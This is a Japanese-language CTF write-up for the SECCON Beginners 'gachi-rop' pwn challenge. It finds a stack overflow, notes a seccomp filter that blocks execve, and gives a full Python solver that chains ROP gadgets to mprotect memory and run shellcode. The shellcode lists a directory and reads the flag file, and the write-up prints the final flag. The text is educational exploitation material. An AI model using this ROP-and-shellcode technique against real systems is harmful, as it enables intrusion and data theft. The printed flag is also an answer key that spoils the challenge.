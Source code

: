 # gachi-rop

## 問題文
そろそろOne Gadgetにも飽きてきた？ガチROPの世界へようこそ！  
`nc gachi-rop.beginners.seccon.games 4567`  
[gachi-rop.tar.gz](files/gachi-rop.tar.gz) c8cb163daca67761d36d9410b6eb2d8bfa961c66  

## 難易度
**medium**  

## 作問にあたって
One Gadget派閥の台頭により、世界からROP筋が失われるのを防止しに来ました。  
私はPwnの師匠に「One GadgetはROPマスターしてから使うもの」、「Shell立ち上げて嬉しいことなんて実世界のExploitではほとんど無いよ」という厳しいお言葉を頂いています。  
seccompを知ってもらうのも問題の意図です(ちょっと意地悪しました)。  
ちなみにいろいろなところで既出です。  
人によってはgachi-shellcodeかもしれません。  

## 解法
動いているgachi-rop、libc.so.6と接続先が渡される。  
接続すると、`system`のアドレスが渡され、名前を聞かれて、応答があり終了する。  
```bash
$ nc gachi-rop.beginners.seccon.games 4567
system@0x7fb962266d70
Name: Satoki
Hello, gachi-rop-Satoki!!
```
配布されたgachi-ropをチェックする。  
```bash
$ checksec --file=gachi-rop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   46 Symbols        No    0               2               gachi-rop
$ ./gachi-rop
system@0x7fc8d75c6d70
Name: Satoki
Hello, gachi-rop-Satoki!!
$ ./gachi-rop
system@0x7f5ef647bd70
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, gachi-rop-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!!
Segmentation fault
```
大量の入力で`Segmentation fault`となり、BOFが怪しい。  
```bash
$ gdb ./gachi-rop
~~~
pwndbg> start
~~~
pwndbg> c
Continuing.
system@0x7ffff7dccd70
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, gachi-rop-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!!
~~~
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
 ► 0x4012a1 <main+134>    ret                                <0x4141414141414141>

~~~
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc98 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
... ↓        7 skipped
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0         0x4012a1 main+134
   1 0x4141414141414141
   2 0x4141414141414141
   3 0x4141414141414141
   4 0x4141414141414141
   5 0x4141414141414141
   6 0x4141414141414141
   7 0x4141414141414141
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
RIPが取れている。  
あとは`system`のアドレスが表示されているため、libc内の`/bin/sh`などを使い`system`を呼び出せばよいと考える。  
しかし上手くいかない。  
それもそのはず、[seccomp-tools](https://github.com/david942j/seccomp-tools)で見てやると以下のように禁止項目がある。  
```bash
$ seccomp-tools dump ./gachi-rop
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x03 0x00 0x40000000  if (A >= 0x40000000) goto 0007
 0004: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0007
 0005: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00050000  return ERRNO(0)
```
システムコール`execve`、`execveat`が禁止されており、簡単にシェルは取れないようになっている。  
もちろん`system`も内部でこれらを用いている。  
幸い、`read`や`open`が禁止されていないので、ファイルは読み取ることができる。  
フラグの場所を探すと、Dockerfileに`RUN  mv /flag.txt ctf4b/flag-$(md5sum /flag.txt | awk '{print $1}').txt`とある。  
つまり、ファイル名自体も取得する必要がある。  
`getdents`を使えば読み取ることができるので、以下のようにうまくROPして`mprotect`で実行可能領域を作り、シェルコードを挿入すればよい(シェルコードは[CTFするぞ](https://ptr-yudai.hatenablog.com/)から借りる)。  
```python
import os
from ptrlib import *

assert os.path.exists("./gachi-rop"), "./gachi-rop not found ;("
assert os.path.exists("./libc.so.6"), "./libc.so.6 not found ;("

elf = ELF("./gachi-rop")
libc = ELF("./libc.so.6")

sock = Socket("nc gachi-rop.beginners.seccon.games 4567")
# sock = Process("./gachi-rop")
# sock.debug = True

sock.recvuntil("system@")
libc.base = int(sock.recvline(), 16) - libc.symbol("system")

sock.recvuntil("Name: ")
payload = b"A" * 0x18
# mprotect(0x404000, 0x1000, 0x7)
payload += p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(elf.section(".bss") & ~0xFFF)
payload += p64(next(libc.gadget("pop rsi; ret;")))
payload += p64(0x1000)
payload += p64(next(libc.gadget("pop rdx; pop r12; ret;")))
payload += p64(0x7)
payload += p64(0x0)  # X
payload += p64(libc.symbol("mprotect"))
# read(0x0, bss + 0x100, 0x200)
payload += p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(0x0)
payload += p64(next(libc.gadget("pop rsi; ret;")))
payload += p64(elf.section(".bss") + 0x100)
payload += p64(next(libc.gadget("pop rdx; pop r12; ret;")))
payload += p64(0x200)
payload += p64(0x0)  # X
payload += p64(libc.symbol("read"))
# jmp bss + 0x100
payload += p64(next(libc.gadget("pop rax; ret;")))
payload += p64(elf.section(".bss") + 0x100)
payload += p64(next(libc.gadget("jmp rax;")))
sock.sendline(payload)

shellcode = nasm(
    f"""
    xor esi, esi
    lea rdi, [rel ctf4b]
    mov eax, {syscall.x64.open}
    syscall
    mov r13, rax
    cld

loop:
    mov edx, 0x40
    lea rsi, [rel buf]
    mov rdi, r13
    mov eax, {syscall.x64.getdents}
    syscall
    test eax, eax
    jz end

    mov dword [rel buf + 18 - 8], './ct'
    mov dword [rel buf + 18 - 4], 'f4b/'

    xor esi, esi
    lea rdi, [rel buf + 18 - 8]
    mov eax, {syscall.x64.open}
    syscall

    mov edx, 0x100
    lea rsi, [rel buf]
    mov edi, eax
    mov eax, {syscall.x64.read}
    syscall
    test rax, rax
    jle loop

    mov edx, eax
    mov edi, 1
    mov eax, {syscall.x64.write}
    syscall
    
    jmp loop

end:
    xor edi, edi
    mov eax, {syscall.x64.exit_group}
    syscall

ctf4b: db "./ctf4b", 0
buf:
""",
    bits=64,
)
sock.sendline(shellcode)

flag = sock.recvregex("ctf4b{.*?}")
print(flag.decode())
# sock.sh()
```
実行する。  
```
$ python solver.py
[+] __init__: Successfully connected to gachi-rop.beginners.seccon.games:4567
[+] base: New base address: 0x7fd5285d8000
ctf4b{64ch1_r0p_r3qu1r35_mu5cl3_3h3h3}
[+] _close_impl: Connection to gachi-rop.beginners.seccon.games:4567 closed
```
flagが得られた。  

## ctf4b{64ch1_r0p_r3qu1r35_mu5cl3_3h3h3}